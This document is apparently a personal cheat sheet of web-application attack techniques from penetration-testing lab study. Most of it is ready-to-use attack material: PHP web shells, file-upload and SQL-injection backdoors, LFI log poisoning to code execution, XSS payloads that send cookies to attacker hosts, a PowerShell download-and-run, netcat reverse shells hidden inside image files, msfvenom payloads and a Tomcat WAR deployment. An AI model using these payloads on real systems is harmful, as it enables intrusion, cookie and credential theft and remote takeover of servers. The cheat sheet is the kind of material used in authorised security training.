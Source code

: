 

Web Application Attacks:
  Tools:
    burpsuite (set up w/ foxyproxy extension)
  Things to Check:
    Browser Dev Tools->Network Headers->Response Headers->server versions, etc.
  Admin Consoles:
        look up default credentials
  
  
      - File (Shell) Upload:
        - `davtest -url http://10.10.10.15`
        - Might need to upload .html file, then rename (move) it to another type that executes a shell (like aspx)
            - Upload file with curl:  `curl http://10.10.10.15/ --upload-file shell.txt`
                - or:   `curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php`
    - Move/Rename file:  `curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt`
        - ex.  `curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt`
    - Code Injection/Input Boxes:
        - Test: try ; at end of input with additional command; try ' for sqli test
        - Find somewhere to inject reverse shell code
    
        ?code=phpinfo()
        ?code=system('id'); (if single line output)
        ?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)

    - LFI:
        - ex. ...?page=/../../../../../etc/passwd
        - See LFI Interesting Files
        - Tip: put %00 at end:  ex. http://target.com/?page=./../../../../../../../../../etc/passwd%00
        - LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/
    - LFI TO RCE:
        - Log poisoning
            - See what logs you can include, then figure out how to get that service to log your request
            - ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log
            - /var/log/apache2/access.log:   `nc 1.1.1.1 80, then GET /<?php system($_GET['cmd']);?>`
            - /proc/self/environ: use burp (https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) to send malicious url with a modified user-agent
            - Windows: `?file=c:\xampp\apache\logs\access.log&cmd=ipconfig   nc -nv 1.1.1.1 80 ,   <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`
            - Email method:  https://bitvijays.github.io/LFC-VulnerableMachines.html
    - RFI:
        - Try shell saved as .txt, .php, etc. - see what type of scripts the site uses
        - works if allow_url_fopen and allow_url_include both = On in the file /etc/php5/cgi/php.ini -- php.ini location is seen in phpinfo.php file
        - ex. Using reverse.txt php shell:  `?page=http://1.2.3.4/reverse.txt?  OR:  ?page=http://1.2.3.4/reverse.txt%00`
  
  
  
  
  
  
  
  
  
  
  
  
  XSS:
        Stored: look for comments, reviews, etc.
        Reflected: search box, etc.
        Look for unsanitized input that is displayed as output; characters to try:  < > ' " { } ;  -------check src code
        Basic payload:  <script>alert(‘XSS’)</script>
        if Secure and HTTPOnly flags not set, we can steal authenticated user cookies:   <script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
            catch with:   sudo nc -nvlp 80
        Beef Framework tool
    Directory Traversal:
        look for url parameters w/ file extensions
            ex. ?file=c:\windows\system32\drivers\etc\hosts 
        LFI: actually executes the file; 'include' statement means code is executed
            C:\xampp\php\php.ini
        RFI: try a url
            ex. make and host a local evil.txt file:  <?php echo shell_exec($_GET['cmd']); ?>
                http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
        LFI log contamination tactic: connect w/:  nc -nv 10.11.0.22 80, then send:  <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
            then:  http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
        PHP Wrapper Method:
            http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
    SQL Injection:
        when queries are sent to a database for execution
        Test: see if ' causes errors in any field
            see if ?cod=1+and+2=2  still displays correctly
                column counting:  cod=1+union+select+1,2
                room.php?cod=1+union+select+1,2,3,4,5,6,'<?php_system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
        Authentication bypass:
            tom' or 1=1;#
            if multiple row error:   tom' or 1=1 LIMIT 1;#
        SEE HOW DATA IS DISPLAYED, then extract:
        1. column number enumeration:
            ?id=1 order by 1;    -----increment until error
        2. do a union (but w/ same # of columns):
            ex. if 4 columns:   ?id=1 union all select 1, 2, 3
        Then extract data (for mariadb at least):  union all select 1, 2, @@version,  union all select 1, 2, user(),  
        union all select 1, 2, table_name from information_schema.tables
            union all select 1, 2, column_name from information_schema.columns where table_name='users'
            ?id=1 union all select 1, username, password from users
        Read File:  ?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
        Make Backdoor:  ?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
            access:  10.11.0.22/backdoor.php?cmd=ifconfig
        WINDOWS: create admin user and add user to RDP group (see PWK lab notes)
        Automated: sqlmap (NO OSCP)
            sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
                all data:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
                Shell:   sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell



SQL Injections:
SQL command LFI/reverse shell:  add field in table with value:  <?php system($_REQUEST["cmd"]);?>
CHEAT SHEET test cmds:  https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ or  https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html
Select * from accounts where username='$user' and password='$pass'
Figure out which input fields are injectable by trying to break them:
'
"
Comment: # (MySQL) or -- (standard SQL)
Try adding true and false and statements after your input to see if injectable.
username:  admin'#
password:   abc' OR 1=1#
abc' OR 1=1--
0' or '0'='0
See how many columns are returned, then return other things:
0' or 1=1 UNION SELECT null, version() #
0' or 1=1 UNION SELECT user(), database() #
*See SQL functions file
Other tables:  0' or 0=0 UNION SELECT table_schema, table_name from information_schema.tables #
Tables and columns:  0' or 0=0 UNION SELECT 1,concat(table_name,char(58),column_name) from information_schema.columns #
Then get values:  0' or 0=0 UNION SELECT user, password from tikiwiki195.tiki_users #

Writing to file/getting RCE/shell:  Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/_0xdf.php'#


union

Watch for URL parameters--try to inject (after http encoding it)
Figure out how many columns are selected (increase number until error): &username=zaid' order by 1# --> &username=zaid' order by 1%23
Determine table names, then column names
ex. If 5 columns:  &username=zaid' union select 1,2,3,4,5%23 (shows where things are displayed) (Displays anything:) &username=zaid' union select 1,database(),user(),version(),5%23
	table names:  union select 1,table_name,null,null,5 from information_schema.tables	  where table_schema = 'tableName1'
	column names in a table:  union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'
	fields:  union select 1,username,password,is_admin,5 from accounts
Reading/writing any file from database:
	union select null,load_file('/etc/passwd'),null,null,null
	union select null,'example text',null,null,null into outfile '/var/www/mutillidae/example.txt'   (or to /tmp/example.txt)

**Automated SQL Tool: SQLMap
	Scan parameters: sqlmap -u "full url w/ parameters"
	Many options: sqlmap --help
	******SQLMAP SHELL:  sqlmap -u http://10.10.10.143/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" --os-shell


**NOSQL INJECTION: in burp, try: username[$ne]=..., password[$ne]=...
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
If injection succeeds, enumerate accounts with: https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep username
then: python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep password

Web Shells:
webshell.php:  <?php echo shell_exec($_GET['cmd']); ?>
	http://127.0.0.1/webshell.php?cmd=id
	http://127.0.0.1/wordpress/?cmd=nc [IP attack box] [port] -e /bin/sh
<?php system($_GET["cmd"]); ?>
<? passthru($_GET["cmd"]); ?>


-Insert code into Wordpress/Joomla theme file
-if blocked, try common port like 80 or 443
-URL encoding of characters

Tomcat Web Application Manger War Shell Upload:
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=4444 -f war -o pwn.war
***: curl -T "pwn.war" -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/miao&update=true"
Or automate with:  https://github.com/mgeeky/tomcatWarDeployer
python autowar.py http://10.10.10.95:8080 -U tomcat -P s3cret -H <attacking machine IP> -P 4321

File Upload:
-modifying and installing plugins
-Bypassing .php type filter, save as: .php4, .pht, .phtml, etc.
-Bypass MIME file type validation w/ Burpsuite (modify POST request Content-Type header)
-Uploading hidden PHP code as an image file w/ Gimp--put code in properties/comments (bypasses getimagesize() validation)
PHP code in image upload method: https://0xrick.github.io/hack-the-box/networked/
	cp original.png ./shell.php.png
	echo '<?php' >> ./shell.php.png
	echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f");' >> ./shell.php.png
	echo '?>' >> ./shell.php.png
Or:
	cp google.png ./shell2.php.png
	echo '<?php' >> ./shell2.php.png
	echo 'system($_REQUEST["cmd"]);' >> ./shell2.php.png
	echo '?>' >> ./shell.php.png

XSS:
CHEAT SHEAT/test input:  https://www.jb51.net/tools/xss.htm
-client-side
3 types: persistent/stored, reflected, DOM based
Tests:
<script>alert("XSS")</script>
<img src="10.10.14.18/test.jpg" /> <script src="http://10.10.14.18/test.js"></script>
Steal Cookie:
<script>new Image().src="http://10.10.28.40:8000/cool.jpg?output="+document.cookie;</script>
sudo nc -nvlp 80
<script>document.location="http://10.10.14.18 username="+document.cookie;</script>
Reliable Method of cookie stealing:
<script src="http://10.10.14.18/xss.js"></script>
make xss.js file:
function pwn() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.18/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
python -m SimpleHTTPServer 80
................................................................................
Example: XSS Reverse Shell (if the website can run the dir command):
<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18:80/mini-reverse.ps1')");</script>
	Better with msfvenom: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe -o payload.exe
	<script>callSys("dir | powershell IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.18:80/payload.exe','C:/temp/payload.exe')");</script>	

Try javascript code in all input boxes, username/password (if displays incorrect username), search (if results display the searched keywords) -- or URLs
Stored: comment section, guestbook, contact form, user profile, etc.
	Upload BEEF hook: <script src="http://1.2.3.4:3000/hook.js"></script>  (copy from beef program) -- take control of another user
Content injection:   <img src=http://10.10.15.25/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.15.25'$IFS'4444')>
Template injection: https://shubham-singh.medium.com/doctor-htb-walkthrough-70bcb9eedefd and https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#methodology

XSRF: if you can get a user to click a link, etc.
See if you have a password reset form, etc. that can be submitted via url -- make the admin account click it and change to your desired password
ex. http://10.10.10.97/change_pass.php?password=password&confirm_password=password&submit=submit
http://10.10.14.18/complete


Password Attacks:

PHP LOGIN PASSWORD BYPASS IN BURP:  username=admin&password[]=

Creating brute-force password lists: Crunch, Cewl (website-crawler)
Scraping emails from website:  cewl -n -e --email_file mailid.txt http://sneakycorp.htb

IF CGI-BIN DIRECTORY IS FOUND, LOOK FOR .SH SCRIPTS:  for shellshock
dirb http://10.10.10.56/cgi-bin -X .sh

  
  

PHP Injection:
<?php if (isset($_REQUEST[‘fupload’])) { file_put_contents($_REQUEST[‘fupload’], file_get_contents(‘http://IP_ADDR/' . $_REQUEST[‘fupload’])); }; if (isset($_REQUEST[‘fexec’])) { echo ‘<pre>’ . shell_exec($_REQUEST[‘fexec’]) . ‘</pre>’; }; ?>
access it: <filename>.php?fupload=nc.exe (for example) and <filename>.php?fexec=nc IP PORT
Linux Reverse Shell:  http://pentestmonkey.net/tools/web-shells/php-reverse-shell
Windows Reverse Shell:  https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php
  
  
  
  
  
Specific Applications:
  PHPMyAdmin:
    in sql console:  select * from webappdb.users;
    make a user:  insert into webappdb.users(password, username) VALUES (”backdoor“,”backdoor“);
